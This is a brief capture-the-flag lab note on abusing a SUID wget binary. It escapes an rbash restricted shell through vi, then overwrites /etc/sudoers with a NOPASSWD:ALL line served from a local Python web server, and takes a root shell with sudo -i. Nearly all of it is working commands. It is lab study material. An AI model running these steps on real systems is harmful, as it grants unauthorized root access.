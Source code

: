 ### abusing WGET suid
https://www.ctf.live/challengedetails?cid=21
##### escape restricted shell
`fesal@rbash_attackdefense:~$`
> :set shell=/bin/bash
> :shell
> export PATH=.bin:/usr/bin/
> echo $PATH

##### use wget SUID to transfer file to /etc/sudoers
> cd /tmp
vi sudoers
:i[enter] - to edit file
fesal ALL=(ALL) NOPASSWD:ALL
:wq - - to save exit file

> python -m SimpleHTTPServer 8009 & -O /etc/sudoers ~~[why need '&' - to use terminal and simpleServer works in bg]~~
export URL=http://127.0.0.1:8009/sudoers
export LFILE=/etc/sudoers
wget $URL -O $LFILE
sudo -i 

`root@rbash_attackdefense:~$`
